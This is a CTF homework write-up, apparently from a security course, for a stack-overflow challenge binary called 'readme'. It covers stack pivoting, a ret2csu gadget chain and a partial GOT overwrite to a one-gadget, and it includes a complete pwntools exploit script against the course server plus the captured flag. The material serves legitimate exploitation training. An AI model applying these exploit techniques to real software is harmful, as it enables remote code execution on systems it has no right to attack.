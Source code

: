 # Hw3

## readme

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### concept

觀察發現主程式非常的簡單，使用 read 來讀取輸入，不過 buf 大小為 0x20 bytes 卻可以讀入 0x30 bytes 造成 overflow

![](https://i.imgur.com/5yCKKAP.png)

因為可以 overflow 的大小有限，只有 0x10 bytes 而已，能夠做的事只有蓋 rbp 和 return address，所以需要使用 stack pivoting 的技巧來塞 rop chain

主要想法是先透過以下兩個 gadget 控 rdx，把 r12 + rbx * 8 的值設為 ret 的 gadget 並且 rbp 設為 1，即可使 call 完回到原本的 gadget 而且通過 cmp 不會跳到 __libc_csu_init + 0x40，而 rdx 的值就會設為 r13

![](https://i.imgur.com/0uut4dG.png)

![](https://i.imgur.com/hh1J9vw.png)

接著將 read_got 後 2 bytes 蓋為附近的 one gadget，最後 call read 即可

![](https://i.imgur.com/AWQ4YCy.png)

![](https://i.imgur.com/TfVIGBH.png)

不過因為有 ASLR 的關係 libc address 除了後 1.5 bytes 之外其他都是 random 的數值，所以只有 1/16 的機會可以成功 exploit

### exploit

```python
#!/usr/bin/env python

from pwn import *
import time

r = remote("csie.ctf.tw", 10135)
# r = process('./readme', env = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc.so.6")})
context.arch = 'amd64'

main_read = 0x40062b
read_got = 0x601020
read_plt = 0x0000000004004c0
buf1 = 0x00602000 - 0x200
buf2 = buf1 - 0x200

pop_r12__pop_r13__pop_r14__pop_r15 = 0x4006ac
mov_rdx_r13__mov_rsi_r14__mov_edi_r15__call_r12__add_rsp_0x8__pop_rbx__pop_rbp__pop_r_12_to_15 = 0x400690
pop_rsi_r15 = 0x00000000004006b1
pop_rdi = 0x00000000004006b3
leave = 0x400646
ret = 0x0000000000400499

def write_rop(addr, data):
    time.sleep(0.5)
    r.send('a' * 32 + flat([addr + 0x20, main_read]))
    time.sleep(0.5)
    r.send(data.ljust(32, '\x00') + flat(buf1 + 0x20, main_read))

rop = flat([
    0x1,

    pop_r12__pop_r13__pop_r14__pop_r15,
    buf2 + 19 * 0x8,
    0x2,
    0x0,
    0x0,
    mov_rdx_r13__mov_rsi_r14__mov_edi_r15__call_r12__add_rsp_0x8__pop_rbx__pop_rbp__pop_r_12_to_15,
    0x0,
    0x0,
    0x1,
    0x0,
    0x0,
    0x0,
    0x0,

    pop_rsi_r15,
    read_got,
    0,
    read_plt,

    read_plt,

    ret
    ])

r.recvuntil(':')
r.send('a' * 32 + flat([buf1, main_read]))

for i in range(0, len(rop), 32):
    write_rop(buf2 + i, rop[i: i + 32])

time.sleep(0.5)
r.send('a' * 32 + flat([buf2, leave]))
time.sleep(0.5)
r.send('\x74\x02')

r.interactive()
```

### flag

```FLAG{CAN_YOU_R34D_MY_M1ND?}```
